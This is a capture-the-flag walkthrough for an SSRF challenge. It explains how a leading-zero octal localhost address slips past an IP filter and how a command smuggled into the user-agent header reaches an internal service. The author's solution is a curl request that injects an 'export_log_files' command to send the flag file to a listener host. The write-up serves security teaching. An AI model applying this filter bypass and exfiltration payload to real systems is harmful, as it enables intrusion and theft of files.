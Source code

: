 # MeduSurf: Walkthrough

It's another SSRF! This time, exploits have been made slightly more difficult by:
- introducing a more thorough IP address filter
- moving sensitive internal functionality to a non-HTTP service that doesn't return sensitive data directly

The IP address filter attempts to block _all_ IP addresses from being passed as hostnames. However, the "performance optimization" breaks this because the IP address parser accepts arbitrarily many leading zeros in octal IPv4 addresses. (Side note: Unlike cURL, the underlying Erlang libraries treat IPv4 addresses with hexadecimal as if they're domain names. That comment isn't a lie.)

Attempts to bypass the filter using redirects should fail. Gleam `httpc` as of 3.0.0 no longer follows redirects by default, overriding the behavior of the Erlang library it wraps.

The next step is sending a valid command to the backend service and exfiltrating the flag. This little Python service uses a custom protocol in which commands are separated by semicolons. There's a command to upload an arbitrary file to a supplied URL. It requires whitespace, so injecting this command in the request path shouldn't work. Fortunately, the new app forwards the `user-agent` header with proxied requests.

## The Author's Solution

1. Set up an HTTP listener to receive the file.
2. Construct an exploit payload with:
    - a valid localhost IP address containing lots of leading zeros for at least one octet
    - a `user-agent` header containing log export command like `;export_log_files /app/flag.txt ${LISTENER_URL};`
```bash
curl 'http://127.1:8080/proxy' \
  -H "user-agent: ;export_log_files%20flag.txt%20http://${LISTENER_HOST}:8080/;" \
  -H "content-type: application/json" \
  --data-raw "{\"url\":\"http://127.0000000000000000000000000000000000000000000000000000000000000000001:1337/\"}'
```

## Alternatives

It's probably possible to bypass the URL filter by pointing a domain at localhost, too. I haven't bothered to test that method, but also didn't bother to try to block it.

